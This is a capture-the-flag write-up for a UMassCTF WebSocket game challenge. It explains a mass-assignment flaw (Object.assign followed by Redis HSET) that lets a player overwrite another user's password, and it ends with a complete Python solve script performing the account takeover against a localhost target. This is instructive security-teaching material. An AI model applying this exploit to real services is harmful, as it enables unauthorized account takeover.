





This is my second time being an author and organizer for UMassCTF. Since this year's theme was flash/io games, it was a great opportunity for me to incorporate web game elements. So I decided to create a web challenge using WebSockets themed on the "Falling Blocks" game where the player has to dodge the falling blocks and the longer you survive the higher score you'll get. The vulnerability itself wasn't hard to find and exploit, but I aimed to make it subtle and more real-life-like.

## Description

One of the most iconic games has made a come back as the Falling Blocks game! However, there are 3 unbeatable players dominating top 3 at all times. Can you hack the game and make it to top 3?

## The Flag


Examining the source code, the goal is to obtain a score greater than 10000 and the flag will be given to us when we logout. The score is obtained by Redis' `client.HGET` method. According to the [documentation](https://redis.io/docs/latest/commands/hget/), "it returns the value associated with field in the hash stored at key". In this case, the key is `req.user.username` and the field is `username`.

Further looking through the code shows that the game uses WebSockets to send the score to the backend `nodejs` server. However, we can directly modify the score because there's a check that sets it to 0 if we try to set it above 10000.




## Mass Assignment in JavaScript

We see that we have full control over `data` as it's whatever data sent via WebSockets. WebSockets essentially a communication protocol similar to HTTP. WebSockets keep the connection open and allows for real-time, two-way communication often when constant updates are needed. So just like HTTP, we can intercept and modify the data.



The vulnerability exists in the lines `userdata = Object.assign(userdata, data)` and `await client.HSET(userdata.username, userdata)`. The [documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/assign) says it "copies all enumerable own properties from one or more _source objects_ to a _target object_. It returns the modified target object". Scrolling down to the section "Merging objects with same properties" says: "The properties are overwritten by other objects that have the same properties later in the parameters order." This means if `data` will overwrite existing key-value pairs in `userdata`, and new key-value pairs will be added to `userdata`. The line `await client.HSET(userdata.username, userdata)` will then allow any users to directly control all the fields and values associated with the key `userdata.username` in the Redis database (See [documentation](https://redis.io/docs/latest/commands/hset/)).

## Password Reset

When the server starts, there are 3 users created with randomly generated passwords and scores set greater than 10000. At first, it might seem like they're just there dominating the top 3 in the scoreboard, and our goal is to surpass them. But remember the mass assignment vulnerability we found earlier? Since we are able to reset any fields and values associated with the username, what if we just reset the password of any of the top users and take over their account? 



The reason why we have to abuse the mass assignment vulnerability is because there's an authentication in `utils.authMiddleware` that prevents us from directly changing our current user's username by verifying the jwt token with a secret token that's only known to the server.



## Putting it All Together

Now, we can put everything together that leverages the mass vulnerability assignment to account takeover to getting the flag:

1. Register a new user
2. Login as the new user
3. Craft and send a WebSocket to reset the password of user `Ssundae`
4. Logout and login as user `Ssundae` with the new password
5. Logout again to obtain the flag

### Final Solve Script

```python
from websocket import create_connection

import requests

import json

import re

  
remote = "localhost"

base_url = f"http://{remote}"

  
s = requests.Session()

username = "test"

password = "test"

s.post(f"{base_url}/register", data={"username": username, "password": password})

s.post(f"{base_url}/login", data={"username": username, "password": password})

user_cookie = s.cookies.get("user")

cookie_header = f"user={user_cookie}"

headers = {

'Cookie': cookie_header,

}

ws = create_connection(f"ws://{remote}", header=headers)

username = "Ssundae"

password = "win"

data = {"type": "gameOver", "score": 200, "time": 2, "username": username, "password": password}

message = json.dumps(data)

ws.send(message)

s.get(f"{base_url}/logout")

s.post(f"{base_url}/login", data={"username": username, "password": password})

flag = re.search(r'(UMASS{.*?})',s.get(f"{base_url}/logout").text).group()

print(flag)
```

